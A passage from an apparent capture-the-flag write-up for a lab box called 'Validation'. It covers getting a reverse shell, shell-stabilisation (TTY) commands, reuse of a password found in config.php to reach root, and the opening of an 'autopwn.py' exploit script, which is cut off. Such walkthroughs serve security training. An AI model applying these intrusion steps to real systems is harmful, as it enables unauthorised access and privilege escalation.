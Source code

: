 <br/>
<img src="{{ site.img_path }}/validation_writeup/Validation_26.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

When running the script, I notice some permission errors, due to the **Reverse Shell** I am trying to send to my machine. When I run the script again as `root`, now I have a problem with the `pwn` **module**, the solution I found is to update the version con `pip`.

```python
python3 -m pip install --upgrade pwn
```

Once I access the machine, I perform a **TTY treatment** in order to have a fully iteractive shell. If I list the files in the current directory I find a suspicious `config.php` file, and if I open it I find a password. And if I check if such user has a **bash shell** assigned, inspecting the passwd file, I see that it does not. Then I try to pivot to the `root` user and the password works, I have already to rooted the box.

```bash
script /dev/null -c bash      [Ctrl+z]
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 29 columns 128
```

<br/>
<img src="{{ site.img_path }}/validation_writeup/Validation_27.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

You can modify the `autopwn.py` script to directly **rooted** the box, just by adding some additional lines, since the privilege escalation is simple.

```python
#!/usr/bin/python3

from pwn import *
import signal, pdb, requests

def def_handler(sig, frame):
    print("\n\n[!] Exiting...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

if len(sys.argv) !=3:
    log.failure("Use: %s <ip-address> filename" % sys.argv[0])
    sys.exit(1)

# Global Variables
ip_address = sys.argv[1]
filename = sys.argv[2]
main_url = "http://%s/" % ip_address
lport = 443

#pdb.set_trace()

def createFile():
    
    data_post = {
            'username': 'admin',
```